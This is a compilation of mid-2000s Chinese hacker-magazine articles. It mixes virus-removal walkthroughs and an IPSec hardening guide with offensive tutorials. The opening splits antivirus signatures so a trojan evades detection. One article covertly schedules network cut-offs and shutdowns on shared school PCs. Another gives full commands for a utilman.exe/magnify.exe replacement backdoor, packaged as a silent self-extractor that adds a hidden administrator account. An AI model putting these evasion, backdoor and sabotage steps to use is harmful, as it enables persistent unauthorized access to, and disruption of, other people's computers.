

我用江民杀桂林老兵的时候，选 10 才杀出来，选 9 就没反应了。接下来你可以看到 C:\temp 目录下生成了许多 asp 文件，都是以数字命名的。生成完毕后程序会暂停，这时候就要让杀毒软件去杀了。我这里没装杀毒软件，就手动随便删了几个文件，让程序继续进行，带有特征码的行数是否已经显示出来了？如图3。

接下去选择 Y，程序跳转到开头，这次选择 b，程序目录下会生成 encode.vbs 并弹出输入框，把刚才第一段特征码复制到 Word 中，用替换功能把“^p”换成“:”，然后把这段复制到输入框中，敲下回车，不一会儿，拆分好以后的代码就出现了，如图4、图5。





把它复制到木马中，替换原来的代码。逐个把所有特征码都拆分一下，再试试，是否已经免杀了？本程序在 WINXP+江民杀毒软件（2007.4 病毒库）下测试通过（这个江民很有问题，等行后加一个空格，它就找不出病毒了）。

**友情提示：** 本程序代码可以公开在非商业范围内任意修改使用。

HaHa，就是这样了，有问题可以到黑手论坛上讨论。我在黑手论坛上的 ID：踏雪。（提问：一个到日本富士山上的游人，此时在山上干什么呢？回答：踏雪。）

> 【文章中涉及到的批处理、vbs 脚本及相关动画光盘中有收录】

## 编辑点评

踏雪终于交上一个能让大家满意的作品了，大家看完这篇文章是不是很过瘾呢？不过也有很多朋友对其中的很多命令头疼吧！不过不要灰心，谁都是这么过来的，一点一滴积累下去，总有一天能明白批处理的整体思路的。编写批处理我觉得最重要的就是思路（当然要有技术基础作前提），理顺了思路，即使有再多再强大的功能也有可能实现。学习批处理的编写对以后学习程序设计也是有益处的，因为它们之间很多东西都是相同的，比如变量、语句执行流程等。感谢踏雪给大家带来的《小菜学 BAT》系列以及这个精彩的结尾。



- 从本文中你可以学到：
- 使用 tasklist 和 taskkill 查看和关闭进程
- 在系统配置实用程序中查看非系统进程
- 注册表修复无法显示隐藏文件和文件夹

### 一、起因

“下班有空过来帮我看看电脑，中毒了！”。一日，一个朋友给我打电话，叫去帮杀毒。当时我就郁闷了，说：“你要杀毒装个杀毒软件不就行了！”。朋友说：“不是，我没杀毒软件，这几天上不了网。我跟你说啊，这个病毒杀不掉的，我重装过系统，但是还是会有，很厉害的”。我靠！重装过系统还有，挺牛的嘛，难道是中了流行的 U 盘病毒不成？“好吧，我下班就过去”。

这段时间利用 U 盘传播的病毒很多，大多都是利用 autorun.inf 文件运行的，清除应该两三下就搞定了。以前没怎么实战过，这次就当练练手吧。

## 二、症状分析

到了朋友家，系统启动进入桌面一切正常，没杀毒软件和防火墙。个人习惯先打开任务管理器，看看有什么进程。不料打开任务管理器窗口后闪了一下就不见了，嗯？看来这病毒不算简单嘛。看看注册表，运行 regedit，情况也一样，运行后闪了一下就不见了，暂时不管注册表了，先把 autorun.inf 和相关的病毒文件删了再说。首先打开“资源管理器”，设置文件和文件夹属性为“显示所有文件和文件夹”，把“隐藏受系统保护的文件（推荐）”前的勾去掉，点“应用”和“确定”。晕死！出现两次 explorer.exe 遇到错误需要关闭，如图1。


点关闭后资源管理器就关闭了。用右键打开 C 盘看下，嗯？没有显示隐藏的文件！再返回去看文件和文件夹的属性，原来病毒修改了注册表，不能修改显示所有文件和文件夹。如图2。


好家伙，不让用任务管理器和注册表。设置下把“隐藏已知文件类型的扩展名”前的勾去掉，如图3。


试试下面这一招，到 WINDOWS 目录下把 regedit.exe 扩展名改为 bat，运行，还是闪一下就没了，再把扩展名改为 cmd 看看，结果同样，看来改扩展名的方法也行不通了。

## 三、手工查杀

都闪，蛮有挑战性的啊，我们还有 cmd 命令行呢！在“运行”中输入 cmd，还好，没有被关闭，输入 tasklist 回车，这是在命令行下用来查看系统进程的命令，如图4。


好像没什么异常的进程啊，难道是进程被隐藏了？慢着！有个 internat.exe 的进程，我记得微软的输入法进程叫 internat.exe，不注意看还真看不出来啊，就是少了个字母 a，其 PID 值是 1548。好，我们结束它！输入 taskkill /pid 1548 回车，再输入 tasklist 看看结束掉没，OK，这次成功了，嘿嘿！小样。现在可以运行注册表了，打开注册表展开到 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 项，看看右边的数据，如图5。


哈哈！这次现形了吧，都在 system32 目录下，internat.exe 和 progmon.exe 还是隐藏的。不用多说，全都 del 了。再展开注册表到 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL 项，双击右边二进制数值名称 CheckedValue，修改数值数据 0 为 1，如图6。


按 F5 刷新一下，再设置文件和文件夹属性为“显示所有文件和文件夹”。嗯，这回能够改过来了。用鼠标右键打开 C 盘，终于可以看到了广为传播的 autorun.inf 文件了，还有个图标是播放器的文件，如图7。该不会是上兴远程控制的服务端吧？因为我经常玩些远控程序，比较熟悉其服务端默认的配置情况。把这 3 个东西都删掉了，再到其它盘去看看，也是这 3 个东西，del 之。


转到 C:\Program Files 目录下，果然看到了播放器图标的 qq.exe，证明确实是上兴远控的服务端，删了。C:\Windows 目录下，看到个也是播放器图标的 _qq.exe，再删。进入 system32 目录下把 internat.exe 和 progmon.exe 删了。不知道是系统反应慢还是鼠标点得快，进入了 system32 下的 IME 目录，晕，居然有个 svchost.exe 程序！我估计应该是和 U 盘病毒一伙的。删了，出现无法删除的提示，看来此程序正在运行中。由于没有冰刃，没办法看出每个进程相应的路径，结束其进程，还是到安全模式下看看吧。返回 Windows 目录，又看到了 qq.exe，看来这个上兴服务端是双进程相互保护的，也就是只结束一个进程或者删除一个文件是根本清除不了的。重启系统进入安全模式，进入 system32 下的 IME 目录，把 svchost.exe 删了。到目前为止，U 盘病毒清除完毕，剩下的就是清除上兴服务端了。尽管不知道入侵者配置上兴服务端时是植入哪个进程，只要把安装时的文件全都删了，创建的服务也删了，那么服务端也就不能启动了。好吧，到 C:\Program Files 目录下去，直接把 qq.exe 删了，再到 Windows 目录下把 _qq.exe 删了，然后点“开始”——“运行”，输入 msconfig，运行系统配置实用程序，选“服务”标签页，把下面“隐藏所有 Microsoft 服务”前的勾勾上，如图8。


看看有什么可疑的服务，发现有 Disk Manager Server 服务。正常的系统是不会有个服务端的。运行 services.msc 打开“服务”，找到 Disk Manager Server 服务，查看其属性。果然是上兴服务端创建的服务，如图9。


好了，既然知道这个就是上兴服务端的服务，我们就来把它删了！打开注册表，展开到 HKEY_LOCAL_MACHINE\SYSTEM\ControlSet003\Services 项，找到 Disk Manager 子项，如图10。把 Disk Manager 子项删除。好了，清除完毕，重启系统进入正常模式。依次运行任务管理器和注册表编辑器，能够正常打开了，到此为止系统运行一切正常。


## 四、总结

整个清除过程还不算太难，当时没有任何安全检测工具，如果有冰刃（IceSword）的话，两三下即可搞定了。这个 U 盘病毒会自动关闭任务管理器和注册表编辑器，就算更改程序扩展名也无效。

不能运行。还好有个弱点，就是 CMD 还可以用，安全模式还可以正常进入。回到家上网查了一下，该病毒释放以下文件：

```
%SystemRoot%\system32\progmon.exe
%SystemRoot%\system32\intent.exe
%SystemRoot%\system32\ime\svchost.exe
X:\setup.exe
X:\Autorun.inf
```

其中 X 为所有驱动盘符；病毒添加的自启动项：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`，其中 Program file 指向 `%SystemRoot%\system32\progmon.exe`，Intenter 指向 `%SystemRoot%\system32\intent.exe`，和朋友遇到的情况完全一样。再就是上兴远控，现在已经有官方的服务端卸载程序出来了，但是本人觉得几乎没什么作用，只能卸载常用默认配置的服务端。控制者（黑客）为了更隐蔽，不可能就照默认的来配置。

经本人手工查杀经验，不管上兴（2007版的）插入什么进程，在安全模式下均可手工清除，当然前提是需要熟悉系统文件及路径，还有服务。先找出其服务端安装的路径和文件，删了，再找出其创建的服务，在注册表中删除即可。本人还是菜鸟，有何不对之处请各高手批评指正！

> **编辑点评：**
>
> 其实如果没有大量的查找和删除操作，我们完全可以不依赖杀毒软件，只借助 Windows 提供的系统工具来清理病毒，当然前提是你要对这些工具很熟悉。很多时候杀毒软件的表现不尽人意，比如强行删除系统文件导致系统崩溃。这时候我们就需要自己动手，借助一些轻量级辅助工具搞定病毒。时间虽然会稍长些，但总要比重装一次系统时间短。次数多了你会发现每次查杀病毒的步骤基本都一个模式，而你从中却能学到很多。

## 从零开始学 IPSec 策略

图：西部横琴

- 从本文中你可以学到：
- 使用 IPSec 关闭指定端口
- 使用 IPSec 禁用指定协议
- 使用 IPSec 加密通讯

IPSec 即网际安全协议，现在许多操作系统支持它，比如 Unix、Linux、Windows。在 Windows 下，我们可以利用 IPSec 设置一些需要的策略，也就是所谓的 IP 安全策略来保护我们的计算机。IPSec 的功能很强大，它可以完成关闭端口、禁用协议、加密数据、身份验证等许多功能。

本文是想通过几种常见的应用，使读者掌握几种 IPSec 策略的设置方法，以后遇到问题就可以自己设置策略来解决了。

### 一、打开 IP 安全策略控制台

IP 安全策略控制台一般在“管理工具”中就能找到，如果没有，还需要自己添加。首先在“运行”里输入 mmc 来打开“控制台”，接着点击“文件”中的“添加/删除管理单元”，在新弹出的窗口中点击“添加”，选择“IP 安全策略管理”，然后依次点击“添加”→“完成”→“关闭”，最后点“文件”中的“另存为”，将其保存在“管理工具”中并命名为“IP 安全策略”，如图1。

### 二、IP 安全策略的结构

我们先看看 IP 安全策略里面有哪些内容。在每一个策略里，你都可以添加许多条规则，每条规则相互独立。而每条规则里又有“IP 筛选器列表”、“筛选器操作”、“身份验证方法”、“隧道设置”和“连接类型”，如图2。

“筛选器”是定义这条规则使用的 IP 数据类型（包括源 IP 地址、目标 IP 地址、使用的协议和协议的端口）。“筛选器操作”是定义使用这条规则时是“允许”、“阻止”还是“协商安全”。

### 三、关闭端口

关闭端口的方法很多，可以用防火墙，也可以用 TCP/IP 筛选，如图3。

但使用 IP 安全策略更灵活些。怎样知道自己的计算机开放了哪些端口呢？只需要在命令提示符里输入 `netstat -an`（其中参数 a 是显示所有连接和监听端口，n 是以数字形式显示地址和端口号），如果其中的“State”显示 LISTENING 就表示此端口开放，如图4。

可能有些朋友想知道别人的计算机开放了哪些端口，比如我想知道 `www.163.com` 是否开放了 3389 端口，我们在命令提示符里输入 `telnet www.163.com 3389`，如果出现如图5所示的状态就表示没有开放，如果出现如图6所示的状态（只有一个小光标在闪动）就表示对方开放了 3389。

知道了开放的端口，我们就开始创建我们的策略。首先在 IP 安全策略控制台空白处单击右键→“所有任务”，点击“创建 IP 安全策略”，按照提示一步一步地操作，就会出现如图7所示的对话框。

将右下角的“使用‘添加向导’”前的勾去掉（如果你想使用向导，就不要去掉，但操作起来不是很灵活），接着点“添加”来添加一条规则，然后点“添加”来添加一个筛选器，取名为 close 3389，在源地址中选择“任何 IP 地址”，在目标地址中选择“我的 IP 地址”，这里要注意了，下面有一个“镜像”，建议不要选上，因为如果你想连别人机器的 3389，也会被禁止，如图8。

由于 3389 使用的是 TCP 协议（这可以从图4得知），所以我们切换到“协议”选项卡上，在“选择协议类型”中选择 TCP，在设置 IP 协议端口中选择“从任意端口”到此端口“3389”，如图9。

最后点“确定”就完成了。这里涉及到一点小知识，当别人连接我的 3389 时，对方的端口号是随机选择的，而我一定是用 3389 端口与它通信的（只要我没改终端服务所用的端口号）。IP 筛选器已经添加好了，下来要设置“筛选器操作”。我们在“筛选器操作”里点“添加”，在“安全措施”中选择“阻止”，然后切换到“常规”选项卡上可以给它起个名字，比如叫“阻止”，如图10。

### 四、禁用协议

大家应该都知道 ping 这个命令吧，使用它我们可以检查网络是否连通。但当别人 ping 我们时，我们就会收到一定数量的数据包，系统要处理这些数据包就会占用一定的资源，而且现在许多扫描软件在扫描之前都会先 ping 一下主机，如果 ping 不通就会放弃这个目标，所以我决定使用 IPSec 策略，使别人 ping 不通我的电脑。

要使别人不能 ping 我们，我们只要将 ping 命令所用的 ICMP 协议禁用就可以了。方法和前面的差不多，首先在前面那个策略里新建一条规则，定义 IP 数据类型，在源地址中选择“任何 IP 地址”，在目标地址中选择“我的 IP 地址”，切换至“协议”选项卡，选择 ICMP 协议，如图11。

接下来是设置“筛选器操作”，我们讲上一个例子时，已经设置好了一个“阻止”的筛选器操作，就不用添加新的了，直接把刚才那个“阻止”选上就行了。最后点“关闭”，新的规则就加入到策略里了。

可能有些朋友以后 ping 其它计算机时会显示“Request timed out”，即使我们在“筛选器”里没有将“镜像”勾上，也一样 ping 不通其它计算机，这是为什么呢？原来，当你 ping 其它计算机时，数据包其实已经到了对方计算机了，它会给你返回一个数据包，告诉你它已经收到了，可由于你的 ICMP 协议被禁用了，这个数据包会被过滤掉，当然就显示超时了。

### 五、数据加密和身份验证

IPSec 最强大的功能是通讯加密。许多管理员都喜欢用一些终端来远程维护自己的服务器，但一些黑客也能用同样的方法来控制我们的服务器。只要我们使用 IPSec 进行数据加密和身份验证，即使他嗅探到了我们的通讯数据，由于是加密的，他也看不懂；即使他得到了我们的用户名和密码，由于要进行身份验证，也无济于事。这里我以 telnet 为例，介绍如何进行数据加密和身份验证。

还是新添加一条规则，首先定义 IP 数据类型，在源地址中选择“任何 IP 地址”，在目标地址中选择“我的 IP 地址”，切换至“协议”选项卡，在“选择协议类型”中选择 TCP（也可以选择“任意”，这样所有的通讯都会进行数据加密和身份验证，这样对安全是有好处的，但是会影响系统的性能，建议只设置几种关键的通讯），在设置 IP 协议端口中选择“从任意端口”到此端口“23”，如图12。

最后点“确定”。至此，主要的工作就做完了，将刚才设置的筛选器和筛选器操作选上，点“关闭”，新的规则就加入到策略里了。

“筛选器操作”中默认会有一个名为“协商安全”的操作，它的安全方法是“完整性和加密”，如果不喜欢默认值，也可以自定义加密算法和完整性算法，如图13。

现在重命名，点“确定”就把筛选器操作设置好了。最后要设置的是“身份验证方法”，点击“添加”，会看到 3 种身份验证的方法：“Kerberos V5”（必须在域环境下才能使用）、“使用证书颁发机构颁发的证书”（需要一台证书颁发服务器）、“预共享密钥”，如图14。

我就使用“预共享密钥”吧，在下面空白处输入一些字符串，点“确定”就行了。这里要注意一点，由于数据加密和身份验证是在两台计算机之间进行的，所以加密算法、完整性算法以及身份验证所使用的密钥要完全一致，否则将无法通过协商，进而建立不了通讯。

### 六、结尾

所有这些规则设置好后，它们存在于同一个策略里，我们要在该策略上单击右键，点“指派”，该策略才会生效。我们也可以从网上下载一些别人配置好的 IP 安全策略，导入我们的计算机，看看别人的策略是怎么设置的。方法是在 IP 安全策略控制台空白处单击右键→“所有任务”，点击“导入策略”，选择你下载的策略，点“打开”。Windows 也自带了 3 种策略，分别是“客户端”、“服务器”、“安全服务器”，你也可以打开研究研究。

> 编辑点评：既然是从零学起 IPSec，那一些基本的操作就必须有，也为了保持文章的完整性，因此我保留了和以前某期末篇文章中类似的内容！IPSec 的确很强大，而在 Windows 上的配置又简单得不得了，这正是被我带给大家的福音。第一次搞 IPSec 的时候我也老被那堆烦琐的操作弄乱，后面又多配了几次，再看了这篇文章，我摸透了 Windows 下 IPSec 配置的设计模式，再配起来就简单多了。希望大家能掌握 IPSec 的配置，安全防御也是黑客的必备本领啊！

## 管理自动化

- 从本文中你可以学到：
- at 命令的用法
- netsh 命令修改 IP 地址的用法

学校实现了多媒体教学，很荣幸混到了管理员一职（班上的）。虽然是快要高考的人了，但只要下课就有人去抢电脑玩，设密码不但麻烦，而且会得罪同学，不设密码就会得罪老板，我此刻才知道管理的难处。

为了偷懒，我发现了一个比较可行的方法。且听俺道来！~~（说书的来了。）

我们教室这栋楼电脑 IP 都是 `192.168.4.*`，所以只要在 IP 上动点手脚就 OK 了。先看一条命令：`netsh interface ip dump > c:\open.txt`。翻译过来就是：得到这台电脑的 IP 配置信息并保存在 `c:\open.txt` 这个文件中，如图1。

```
netsh interface ip dump > c:\open.txt
```

这就是控制上网的两个文件。下面看另一句命令：`netsh -f c:\open.txt`。翻译成现代汉语是：从 `c:\open.txt` 导入 IP 配置信息。嘻嘻！猜到我要干什么了吧？^^ 就算你是高手，如果不知道我们这的配置信息，就算发现问题了也比较难排除。症状就是设备一切正常，但就是不能上网。这时只要对同学们说是学校网管弄的，就不关我的事了。

说了是管理自动化，所以还要用到一条命令，使用 at 命令：`at 18:00 c:\muma.exe`，翻译：在 18:00 的时候运行 `c:\muma.exe` 这个文件（或这条命令），入侵时常用到的哦。懂了这句命令就万事俱备了。拿出作息时间表：10:55 下课，11:15 上课。命令就这样写：`at 10:55 netsh -f c:\stop.txt`，然后 `at 11:15 netsh -f c:\open.txt`，就是说下课时断网，等上课才上（保证老师们的正常使用）。

```
at 18:00 c:\muma.exe
```

这样还不算自动化，还要加上一句才行。我们是 18:10 上晚自习的，下午还是会有同学用电脑的。所以还要实现自动关机才行。命令是：`shutdown -s -t 1`，翻译：延迟 1 秒关机。综上所述，得到一个批处理文件：`c:\addat.bat`，内容是上面的。重点是最后两句：

打开 `open.txt` 这个文件，把本机 IP 改为“192.168.1.90”，把网关地址改为“192.168.1.0”（如果你愿意可以把它们全部改掉，不过要注意别漏啥哦），再点击“文件”→“另存为”，保存到 `c:\stop.txt`。

```
at 10:55 netsh -f c:\stop.txt
at 11:15 netsh -f c:\open.txt
at 18:10 c:\addat.bat
at 18:10 shutdown -s -t 1
```

由于时间到了再添加的命令会被排到明天去执行。最后，把那几个文件隐藏或藏深点。以后我只要保证在 18:10 电脑是开着的就行（反正是自动关机的），形成一个无限循环。唉！总算轻松了哦！不用守着电脑也能管理了，伤人于无形。

> 编辑点评：
>
> 还算是聪明的管理员，不过为什么不做得更绝一些呢，一不做二不休呀！这篇到终尾，算是对前面几期批处理学习的一个实际应用，虽然是很简单的应用，不过这个自动化还是很彻底，最少应该让这种处理开机启动吧，并且使用修改 IP 的方式停上网的方法也不是太高明，至于更好的解决方案，就留给大家当作业吧，也许下期杂志大家就能看到哦！

## 菜鸟也来挖漏洞

### 记一个类粘滞键后门的发掘与利用

zerosoul

- 从本文中你可以学到：
- 使用辅助工具管理器制作后门
- 使用 WinRAR 制作自解压文件

看了这么多《黑手》了，今天第一次投稿，和其它的菜菜们一样，激动ing……好了，废话就说到这了，下面开始进入主题。

话说一天我清理“开始”菜单的时候不小心打开了一个小东西——辅助工具管理器（[开始] 菜单\程序\附件\辅助工具\辅助工具管理器），如图1。

这个和粘滞键一样，也是为了给一些有特殊需求的人设计的。我们可以通过它打开放大镜和屏幕键盘。可能是我第一次打开，它提示让我关掉后再按 WIN（Windows 徽标键）+U 来打开。试了一下，果然可以。然后我突然想到，前些日子讨论得挺火的那个粘滞键（还不知道的看前几期的书），也是利用了 Windows 的快捷键，那这个辅助工具管理器会不会也有这个“漏洞”呢？

下面来验证一下。打开冰刃，发现多了个 `utilman.exe` 进程，路径是 `c:\windows\system32\utilman.exe`。关闭辅助工具管理器，这个进程消失。不用说了，就是它了。

先把它备份一份出来。然后按照利用粘滞键的思路，写一个名为 `backdoor.bat` 的简单批处理，内容如下：

```
copy /y %systemroot%\system32\cmd.exe %systemroot%\system32\dllcache\utilman.exe
copy /y %systemroot%\system32\cmd.exe %systemroot%\system32\utilman.exe
```

由于我加了参数“/y”，所以原来的 `utilman.exe` 都不用删除，`cmd.exe` 会直接改名并覆盖掉 `utilman.exe` 而不要求确认。而且，由于 `cmd.exe` 也是系统文件，所以并不会弹出文件保护。

双击执行 `backdoor.bat`，按下 WIN+U，居然没有反应。难道不行？我打开冰刃，结果发现改了名的 cmd 已经在后台运行了，如图2。

但为什么没有像粘滞键那样弹出图形界面？既然这样不行，我们不是还可以用这个辅助工具管理器来打开放大镜和屏幕键盘吗？我先恢复了 `utilman.exe`，然后按照相同的方法，用改名后的 cmd 替换放大镜的程序（`magnify.exe`），按下 WIN+U 打开辅助工具管理器，再点“放大镜”→“打开”。cmd 界面终于出来了，如图3。

正兴奋呢，砖头就上来了。这是在已经登录的状态下。我注销后试一试，界面还是出不来。再登录后却发现改名后的 cmd 已经在后台运行了，而且是 system 的权限。这说明虽然界面没法出来，但是我替换的程序还是执行了。

然后我又试了很多方法，包括用 `explorer.exe`、`taskmgr.exe`，还有用 WinRAR 做的包含 bat 文件的自解压文件去替换 `utilman.exe` 或 `magnify.exe`，这些程序在未登录界面做测试时都可以在后台运行，但就是不出来界面。我甚至让替换的程序再自动运行另一个程序也没法出现图形界面。我猜这可能和进程属性的继承有关。如果有哪位大虾可以解决，麻烦给小弟指点一下。

由于始终无法出现图形界面，看来我们没法实现粘滞键那么强大的后门利用空间了。但是让它执行我们指定的程序或命令还是没问题的。下面就拿添加管理员账户来说。

先新建一个名为 `run.bat` 的文件，内容如下：

```
net user zerosoul$ 123456 /add
net localgroup administrators zerosoul$ /add
```

然后把它压缩成自解压文件，解压路径一定要绝对地址，解压到哪无所谓。要设置成解压后自动运行 `run.bat`。而且要在自解压的“模式”中点选“安静模式”和“全部覆盖”，如图4。

然后把自解压文件改名为 `utilman.exe`（当然放大镜的 `magnify.exe` 也可以）。下一步再在生成的 `utilman.exe` 同文件夹下建立一个名为 `dllcache` 的文件夹，并把 `utilman.exe` 复制进去一份。把 `utilman.exe` 和 `dllcache` 文件夹再次打包成自解压文件，解压路径为 `%systemroot%\system32\`，同样点选“安静模式”和“全部覆盖”。假如生成的文件名为 `backdoor.exe`，这样就生成了我们的后门程序。只要我们在别人机子上执行 `backdoor.exe`，就会留下一道可以添加管理员账户的后门。如果我们想干点什么，只要 WIN+U 就可以添加一个名为 `zerosoul$`、密码为 `123456` 的账户。管理员即使发现了多余的账户，除了删除账户外，我想还不会想到有这个后门吧，呵呵。

当然，我们可以把 `run.bat` 的内容改成其它的来实现其它功能。也可以用免杀的木马（木马运行是不需要图形界面的，嘿嘿）替换 `utilman.exe`，以备不时之需。当然还要注意系统文件保护的问题。小弟不才，就只能利用这么多了。

此方法在 XP/2003 下测试通过，3389 下也可行。（其它的还没有条件测试。）由于和粘滞键后门比较相似，所以我就称其为类粘滞键后门。

这个漏洞（或许只能称上 bug）虽然没有粘滞键那么好利用，但至少给我们多提供了一条留后门的途径。这样类似的漏洞说不定还有不少呢，只要我们细心点，谁说菜鸟就挖不出漏洞来呢。

## 手动病毒查杀


- 从本文中你可以学到：
- 查杀 U 盘病毒的一般步骤
- ntsd 命令结束进程的用法

今天到学校机房上网，想要查找一下关于最新病毒的情况。可是刚从百度上搜到了关于病毒的网页，点击链接网站的时候，闪了一下——没有了。中毒了！这是我的第一个反应。果然，我从我的 U 盘上拷贝了两个软件（360 和冰刃）放到机子上去准备杀毒，可是居然不能运行软件，也是闪了一下就立即消失了。就是下面的现象，如图 1。


由于病毒关闭程序的速度实在太快，所以都没有办法抓到图片，还请谅解。后来试了一下任务管理器，还好，能打开，查看后果然发现了两个可疑进程：viuvpfn.exe 和 cpbgrwr.exe，如图 2、图 3。


于是，在旁边的机子上百度了一下，有篇文章的状况和我的现象是一样的。既然已经确定了病毒，那就开始动手吧。

首先当然是关闭进程了，我用任务管理器直接关闭了其中的一个进程。啊，任务管理器居然也被关闭了，我晕。看来我太天真了哦，把病毒制造者想得太笨了。再次打开任务管理器，刚刚关闭的进程又出现了，这说明进程是受保护的，并且两个进程是相互保护的。可是为什么要把任务管理器给关了呢？我是这样认为的：进程之间保护的方式就是将关闭的进程重新启动，也就是说进程是能够被关闭的。进程启动的时候是需要时间的，关闭任务管理器的目的就是防止用户在很短的时间内将两个进程都关闭了。所以我们只要能够在它们互相启动之前同时关闭两个进程就可以了。现在使用批处理应该是最好的办法了！建立了一个 .bat 文件（.cmd 文件也可以），文件的内容就是结束进程的命令：ntsd -c q -p PID，其中进程的 PID 可以对任务管理器进行设置得到：查看→选择列，将其中的“PID（进程标识符）”勾选就可以了，如图 4。


显示的两个可疑进程的 PID 为 42132 和 41864，所以在批处理文件中输入的具体内容是：

```bat
ntsd -c q -p 42132
ntsd -c q -p 41864
```

然后保存，将文件后缀名改成“.bat”。双击执行该文件，两个进程就很快被结束了。这个时候病毒就不再起作用了，冰刃又可以使用了，那就来做清理工作吧。

先要找到病毒的启动项目，因为从这里能查看它在注册表中的位置和它的源文件所在位置。在运行中输入 msconfig 打开系统配置实用程序，在“启动”选项卡下面找到了病毒的两个启动项，并从后面列出的“命令”和“位置”中得到病毒源文件位置和注册表中病毒自启动位置所在，如图 5、图 6。


